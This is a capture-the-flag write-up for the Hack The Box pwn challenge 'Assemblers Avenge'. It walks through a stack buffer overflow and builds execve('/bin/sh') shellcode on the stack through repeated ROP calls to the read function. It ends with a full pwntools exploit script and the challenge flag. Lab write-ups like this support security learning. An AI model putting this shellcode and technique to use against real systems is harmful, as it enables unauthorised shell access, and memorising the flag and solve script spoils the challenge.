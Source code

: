 	# HTB Distopia - PWN | Assemblers Avenge

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec there are no memory protections on the binary

```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void _read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a method to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- the address of the stack is unknown

### Exploitation

Tackling the first issue is pretty simple through using recursive calls to `_read`. By setting RIP to `_read`, the buffer overflow vulnerability can be abused multiple times to make numerous write to the stack. Only 8 bytes can be written on the stack that don't get overriden, so shellcode with a payload size of 24 bytes will take 3 calls to `_read`.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

Breaking after the `read` syscall is done executing the first 8 bytes of the shellcode are loaded.

```
pwndbg> x/20gx $rsp+0x8
0x7ffc01dcf290:	0x48f63148d2314850	0x4141414141414141
0x7ffc01dcf2a0:	0x000000000040106d	0x0000000000000000
```

Load the second part of the shellcode.

```
pwndbg> x/20gx $rsp
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x4141414141414141	0x000000000040106d
```

Load the third part of the shellcode.

```
pwndbg> x/20gx $rsp-0x08
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x050f3bb05f545300	0x4141414141414141
0x7ffd34e24580:	0x000000000040106d	0x0000000000000000
```

The complete shellcode should now be loaded to the stack

```
pwndbg> x/10i $rsp-0x8
   0x7ffd34e24560:	push   rax
   0x7ffd34e24561:	xor    rdx,rdx
   0x7ffd34e24564:	xor    rsi,rsi
   0x7ffd34e24567:	movabs rbx,0x68732f6e69622f
   0x7ffd34e24571:	push   rbx
   0x7ffd34e24572:	push   rsp
   0x7ffd34e24573:	pop    rdi
   0x7ffd34e24574:	mov    al,0x3b
   0x7ffd34e24576:	syscall 
   0x7ffd34e24578:	rex.B
```

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then it can also be used for jumping to the stack. The issue here is that RSI does not contain the location of the shellcode, but of the current buffer. Getting around this is pretty easy by using a relative jump instruction `jmp -0x1a`.

![img1](1.svg)

Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this if you want to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```